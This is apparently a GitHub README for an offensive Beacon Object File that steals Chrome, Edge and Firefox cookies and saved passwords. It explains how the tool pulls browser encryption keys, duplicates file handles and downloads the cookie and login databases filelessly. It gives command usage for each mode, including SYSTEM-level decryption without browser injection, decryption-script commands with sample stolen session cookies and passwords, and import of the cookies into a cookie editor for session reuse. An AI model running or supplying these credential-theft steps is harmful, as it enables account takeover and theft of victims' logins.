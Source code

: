 # Cookie-Monster-BOF
Steal browser cookies for edge, chrome and firefox through a BOF!

Cookie Monster BOF will extract the WebKit Master Key and the App Bound Encryption Key for both Edge and Chrome, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then filelessly download the target file(s).

Once the Cookies/Login Data file(s) are downloaded, the python decryption script can be used to extract those secrets! Firefox module will parse the profiles.ini and locate where the logins.json and key4.db files are located and download them. A seperate github repo is referenced for offline decryption.  

Chrome & Edge 127+ Updates: new chromium browser cookies (v20) use the app bound key to encrypt the cookies. As a result, this makes retrieving the app_bound_encrypted_key slightly more difficult. Thanks to [snovvcrash](https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824) this process can be accomplished without having to escalate your privileges. The catch is your process must be running out of the web browser's application directory. i.e. must inject into Chrome/Edge or spawn a beacon from the same application directory as the browser. 

Latest update allows you to decrypt cookies as SYSTEM and without having to inject into the browser process! Shoutout to @sdemius for the discovering how to decrypt the Chrome's [PostProcessData](https://source.chromium.org/chromium/chromium/src/+/main:chrome/elevation_service/elevator.cc;l=216;bpv=1) function and @b1scoito [explanation](https://github.com/moonD4rk/HackBrowserData/issues/431#issuecomment-2606665195)!  
 
## BOF Usage
```
Usage: cookie-monster [--chrome || --edge || --system <Local State File Path> <PID> || --firefox || --chromeCookiePID <PID> || --chromeLoginDataPID <PID> || --edgeCookiePID <PID> || --edgeLoginDataPID <PID> ] 
cookie-monster Example: 
   cookie-monster --chrome 
   cookie-monster --edge 
   cookie-monster --system "C:\Users\<USER>\AppData\Local\<BROWSER>\User Data\Local State\" <PID> 
   cookie-monster --firefox 
   cookie-monster --chromeCookiePID 1337
   cookie-monster --chromeLoginDataPID 1337
   cookie-monster --edgeCookiePID 4444
   cookie-monster --edgeLoginDataPID 4444
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD
    --system, Decrypt chromium based browser app bound encryption key without injecting into browser. Requires path to Local State file and PID of a user process for impersonation 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
```

## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Usage
```
python3 decrypt.py -h                                                                                                                                                                      
usage: decrypt.py [-h] -k KEY -o {cookies,passwords,cookie-editor,firefox} -f FILE

Decrypt Chromium cookies and passwords given a key and DB file

options:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     Decryption key
  -o {cookies,passwords,cookie-editor,firefox}, --option {cookies,passwords,cookie-editor,firefox}
                        Option to choose
  -f FILE, --file FILE  Location of the database file
```

Examples:
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```

Decrypt Chrome/Edge Cookies File and save to json
```
python .\decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db
Results Example:
Cookies saved to 2025-04-11_18-06-10_cookies.json
```
Import cookies JSON file with https://cookie-editor.com/ 

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py -k "\xec\xfc...." -o passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

## Installation
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```
make
```

### TO-DO
- update decrypt.py to support firefox based on [firepwd](https://github.com/lclevy/firepwd) and add bruteforce module based on [DonPAPI](https://github.com/login-securite/DonPAPI)

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI <br>
App Bound Key Decryption:
https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824 <br>
Decrypt Chrome 130+ Cookies 
https://github.com/runassu/chrome_v20_decryption/issues/14#issuecomment-2708796234 <br>
